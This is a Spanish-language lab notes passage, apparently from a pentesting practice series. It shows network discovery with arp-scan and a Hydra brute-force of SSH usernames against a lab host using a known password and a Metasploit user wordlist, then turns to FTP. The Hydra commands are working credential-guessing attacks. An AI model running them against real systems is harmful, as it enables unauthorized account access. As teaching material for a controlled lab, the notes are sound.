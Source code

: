 En este caso sabremos la contraseña pero no el usuario.

  

```Bash
sudo arp-scan -I eth0 --localnet
```

![[Imagenes/image 22.png|image 22.png]]

  

- Vamos a suponer que no se cual es el usuario pero si la **contraseña** que es **alexis.**
    
    **NOTA:** Mirar la sección Notas el punto numero 2 y el 3 para los diccionarios de usuarios.
    
    ```Bash
    hydra -L /usr/share/wordlists/metasploit/unix_users.txt -p alexis ssh://10.0.3.8
    ```
    
    Usaremos el diccionario **unix_users.txt** para encontrar usuarios.
    
    ![[Imagenes/image 1 11.png|image 1 11.png]]
    
    **No a encontrado el usuario 😲. Si pasa esto debemos seguir intentándolo con otros diccionarios.**
    
      
    
    - En este caso al ser una practica de concepto vamos a añadir a mano el nombre del usuario (que conocemos del ejercicio anterior **Parte 1)** en el diccionario.
        
        ```Bash
        sudo nano /usr/share/wordlists/metasploit/unix_users.txt
        ```
        
        ![[Imagenes/image 2 10.png|image 2 10.png]]
        

  

- Vamos a volver a repetir el ataque con hydra.
    
    ```Bash
    hydra -L /usr/share/wordlists/metasploit/unix_users.txt -p alexis ssh://10.0.3.8
    ```
    
    ![[Imagenes/image 3 9.png|image 3 9.png]]
    

  

  

- Esta vez vamos ha hacer exactamente igual pero **atacando al protocolo FTP**.
    
    ![[Imagenes/image 4 8.png|image 4 8.png]]